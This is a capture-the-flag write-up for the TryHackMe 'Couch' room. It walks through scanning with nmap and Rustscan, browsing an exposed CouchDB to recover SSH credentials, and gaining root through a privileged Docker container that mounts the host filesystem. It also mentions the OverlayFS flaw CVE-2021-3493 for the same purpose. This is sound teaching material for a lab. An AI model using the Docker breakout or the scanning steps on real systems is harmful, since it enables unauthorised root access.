# Couch - TryHackMe Challenge

Hatami Ra'is Bukhari (Althemier)
[Challenge link](https://tryhackme.com/room/couch)

## Scanning

Nmap scan
```bash
nmap -sC -sV -oN nmap/result.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

For some reason the scan only show 1 port, even with tag `-A`, so lets try the other method which is `Rustscan`[[1]](https://github.com/RustScan/RustScan)

```bash
Open 10.10.75.191:22
Open 10.10.75.191:5984
```

Much better. `22` is SSH, then what is `5984`? Quick googling, it's for `CouchDB`.

Access `CouchDB` with typing this into your browser: [[2]](https://cloud.ibm.com/docs/Cloudant?topic=Cloudant-access-couchdb-cluster)
```
http://10.10.172.141:5984
```

Or with curl
```bash
curl 10.10.172.141:5984
```

Both method will give you respon where you get the version of the `CouchDB` as well as the machine OS

> What is path for the web administration tool for this database management system?

> What is path for list all databases in the web browser of the database management system?

You can get the answer with some googling, *explore the world*

Once you find out how to do web administrator `CouchDB`, you can find the credential to `SSH` to the machine

## Where is my flag

`user.txt` contain the first flag.

Escalate privileges however... its fun

You can do the casual check priv-esc like:
- `sudo -l`, you get the information that you dont have sudo privileges
- Eploring SUID with `find / -perm -4000 2>/dev/null` also found nothing
- Running `Linpeas` [[3]](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) aslo found nothing.

So, I found 2 method on how to priv esc ro root

### Docker

If you check the user home directory, there is a file called `.bash_history`. This file contain the information of history command type in terminal. So lets see what we have here
```bash
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
.
.
.
.
.
.
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

Docker command, huh. Lets try it
```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ #
```

Huh, we can access this container

Lets see what we have here, maybe we can find this `root.txt` with `find` [[4]](https://tryhackme.com/room/thefindcommand)
```bash
find / -type f -name root.txt
#Find any file start from root directory where the name is root.txt
#Once found, you can open it without permision needed.
cat /???/????/????.txt
```

### Kernel Exploited

Although the method above may have been the intended way, but why dont try other method

If we recall to we try to access `CouchDB` to browser we have the info that the OS run the database is Ubuntu version 16.04

There is one room in TryHackMe [[5]](https://tryhackme.com/room/overlayfs) explaining about CVE-2021-3493 [[6]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493).

TLDR, on some version of Ubuntu which one we use is also effected has vulnerable in OverlayFS which allow local users to get root access. The user only need to compile some scripts and run it to gain instant root, pretty cool right?

You can pause what you currently doing and complete Overlayfs room [[5]](https://tryhackme.com/room/overlayfs) or read and apply what `Overlayfs` has to offer, once finish with `Couch` you can complete `Overlayfs`

